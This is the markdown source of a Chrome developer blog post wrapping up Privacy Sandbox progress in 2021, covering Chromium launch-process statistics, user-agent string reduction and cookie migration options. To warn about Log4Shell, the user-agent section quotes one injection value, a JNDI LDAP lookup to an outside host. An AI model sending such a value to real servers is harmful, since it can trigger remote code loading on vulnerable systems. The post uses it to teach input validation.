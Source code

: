 ```yaml
---
title: Progress in the Privacy Sandbox (December 2021)
description: >
  Looking back at stats from 2021 and some resolutions for tackling user-agent and cookies in 2022.
layout: 'layouts/blog-post.njk'
date: 2022-01-07
authors:
  - rowan_m
hero: 'image/VWw0b3pM7jdugTkwI6Y81n6f5Yc2/Ut0IykTaEFBuOA5EHqbg.png'
alt: >
  Privacy Sandbox logo
tags:
  - progress-in-the-privacy-sandbox
  - privacy
---
```


Welcome to the 2021 wrap-up edition of **[Progress in the Privacy
Sandbox](/tags/progress-in-the-privacy-sandbox/)**, tracking the milestones on
the path to phasing out third-party cookies in Chrome and working towards a more
private web. Normally, we share an overview of updates to the **[Privacy Sandbox
timeline](https://privacysandbox.com/timeline/)** along with news from across
the project, but December was a quiet month. Instead, we'll look back at some of
the activities over 2021 and provide a few potential resolutions you can make
now we are in the new year.

## Chromium development process

For a new web platform feature to land in Chromium, it needs to go through the
[project's open development
process](https://www.chromium.org/blink/launching-features). In 2021, the
Privacy Sandbox team produced:

<figure>
  <table style="font-size: 140%; font-weight: bold; font-variant-numeric: tabular-nums;">
  <tr><td>🥚</td><td>Intent to Prototype </td>     <td>19</td></tr>
  <tr><td>🧪</td><td>Intent to Experiment</td><td>&nbsp;7</td></tr>
  <tr><td>🚀</td><td>Intent to Ship      </td>     <td>11</td></tr>
  </table>
  <figcaption>
    <a href="https://docs.google.com/spreadsheets/d/e/2PACX-1vR-5YYZ-lxG9xelJFCYM2yajUEWUNKZkiXcWX9BYi8dSUV_5Xrhd5u-iyNNf4w8NAVwrSrVWjeNrC-i/pubhtml#">Source</a>
  </figcaption>
</figure>

Each milestone is also an invitation for the wider web ecosystem to contribute.

An **Intent to Prototype** is the first checkpoint, where we invite discussion
and early experimentation. This means a proposal will be available on GitHub,
where **you can ask a question by creating an Issue** or **[join discussions and
presentations in standards
groups](/docs/privacy-sandbox/cds21-update/#discussion)** such as the W3C and
IETF. This is also where coding begins, which means you can **expect the
prototype functionality to be made available for developer testing behind a
[feature
flag](https://www.chromium.org/developers/how-tos/run-chromium-with-flags)**.
Initial feedback is critical for validating and iterating on proposals.

An **Intent to Experiment** is an optional step if we’d like to request an
origin trial. Developers **can [sign up for the origin
trial](/blog/origin-trials/)** of a feature, and then **test it in production**.
It's called an experiment because we have specific aspects of the feature we
want to validate in real-world environments. Developers that can **test and
share the results of those tests** provide valuable feedback to help iterate and
evolve the feature.

An **Intent to Ship** is the final milestone which signals that a feature is now
complete and ready for general availability. Once approved, the feature is
merged into an upcoming release and then progresses through the Canary, Beta,
and Stable channels. It's critical to ensure you **test your sites with the
[Canary](https://www.google.com/chrome/canary/) and
[Beta](https://www.google.com/chrome/beta/) versions of Chrome** to catch and
report any bugs before a feature reaches Stable.

## Proposals

Each Privacy Sandbox proposal has an accompanying GitHub repository. A
repository hosts an explainer to summarize overall functionality, a detailed
specification for implementation by browsers, and contributions from across the
web ecosystem in the form of Issues and Pull Requests.

Across 14 Privacy Sandbox repositories, we had:

<figure>
  <table style="font-size: 140%; font-weight: bold; font-variant-numeric: tabular-nums;">
    <tr><td rowspan="2">💬</td><td>545</td><td>Issues created</td></tr>
    <tr>                       <td>250</td><td>Issues closed</td></tr>
    <tr><td rowspan="2">🛠️</td><td>261</td><td>Pull Requests created</td></tr>
    <tr>                       <td>223</td><td>Pull Requests merged</td></tr>
  </table>
  <figcaption>
    <a href="https://docs.google.com/spreadsheets/d/e/2PACX-1vR-5YYZ-lxG9xelJFCYM2yajUEWUNKZkiXcWX9BYi8dSUV_5Xrhd5u-iyNNf4w8NAVwrSrVWjeNrC-i/pubhtml#">Source</a>
  </figcaption>
</figure>

The language in explainers and specifications is often targeted to an audience
already familiar with standards and browser development, which can be
challenging if you're unfamiliar with it. However, the aim of an explainer is to
explain! If there are points that are unclear or not covered, **we want you to
raise an Issue** so we can update and clarify the explainer.

## Resolutions

### User-agent spring cleaning

As we were counting _down_ to the New Year, we're also counting _up_ to both
[Chrome 100](/blog/force-major-version-to-100/) and the incremental [reduction
of the user-agent string](/docs/privacy-sandbox/user-agent/). This is a good
motivator to revisit any usage of the user-agent string in your code to check if
it's affected by either of these changes.

To find those areas:

1. Search for `navigator.userAgent` in your JavaScript code, or access to the
   `User-Agent` header in your server code.
2. Check your parsing of the string for assumptions about a 2 digit version. For
   example, a regex that specifies `\d\d` or `\d{2}` should be replaced with
   `\d+`.
3. Check your use of the string for anywhere you rely on the:
    * platform (operating system) version
    * full Chrome build version
    * mobile device name
4. These are the values that will be reduced to fixed strings in the future. If
   you need access to these values, [migrate to User-Agent Client
   Hints](https://web.dev/articles/migrate-to-ua-ch).

There is one December update to mention—if you are adopting User-Agent Client
Hints, we have sent the **Intent to Ship to [enable delegating hints to other
origins in
HTML](https://groups.google.com/a/chromium.org/g/blink-dev/c/JQ68cvYuiQU/m/S_33YSqxCwAJ)**
via a `<meta>` tag. For example:

```html
<meta name="accept-ch" content="sec-ch-ua-model=( https://foo.bar )">
```

If you're in an enthusiastic spring cleaning mood, you can also consider
alternatives to the use of user-agent altogether. If you're using the string to
detect mobile devices, then investigate if you can replace this with responsive
design. If you're checking the browser name and version for feature support, see
if you can use feature detection instead.

It's always worth remembering that the user-agent, like any client provided
value, is not guaranteed to be accurate or even provided. The recent [Log4j
vulnerability, "Log4shell"](https://logging.apache.org/log4j/2.x/security.html)
provides an example of this risk. A client that sets its user-agent string to
include a value like `${jndi:ldap://example.com/file}` may be able to get a site
to actively parse that on the server.

{% Aside 'caution' %}

It's critical that you treat user-agent in the same way as any other form of
user input: sanitize and validate it before acting on the value.

{% endAside %}

### Cookie cataloguing

Another traditional new year activity is to make sure you're happy that you have
a healthy number of cookies with quality ingredients. As we continue moving
towards the phase out of third-party cookies, you should make sure you know
which of your site's cookies will be affected. 2020 provided a headstart as it
became necessary to [mark all cookies for cross-site or third-party
use](https://web.dev/articles/samesite-cookies-explained#samesitenone_must_be_secure)
with `SameSite=None`.

Any cookie where you have set the `SameSite` attribute to `None` will need an
update.

There are three possible routes to consider at the moment:

1. If the cookie is only required in a 1:1 relationship with the top-level site,
   then follow the progress of the **[CHIPS
   proposal](https://github.com/WICG/CHIPS)**. This will mean adding the
   `Partitioned` attribute to the cookie.
2. If the cookie is used in a cross-site context, but only across sites that you
   own and operate, then it may be a candidate for **[First-Party
   Sets](/docs/privacy-sandbox/first-party-sets/)**. This requires defining the
   sites in the set and adding the `SameParty` attribute to the cookie.
3. If the cookie is used to provide some form of shared value across multiple
   sites, investigate the wider set of [Privacy Sandbox
   proposals](/docs/privacy-sandbox/) for an alternative solution that does not
   rely on cross-site tracking.

If you're feeling especially health-conscious, then this is also an ideal time
to revisit all of your cookie usage, as we have a good recipe to improve your
first-party cookies too.

{% YouTube id='1g2uQfP1Q3U' %}

## Feedback

As we continue to publish these monthly updates, and progress through the
Privacy Sandbox as a whole, we want to make sure that developers receive the
information and support that they need. Let us know on [@ChromiumDev
Twitter](https://twitter.com/ChromiumDev) if there's anything that we could
improve in this series. We'll use your input to continue improving the format.

Check out the **[Privacy Sandbox FAQ](/docs/privacy-sandbox/faq/)**, which we
continue to expand based on the issues you submit to the [developer support
repo](https://github.com/GoogleChromeLabs/privacy-sandbox-dev-support). If you
have any questions around testing or implementation on any of the proposals,
come talk to us there.
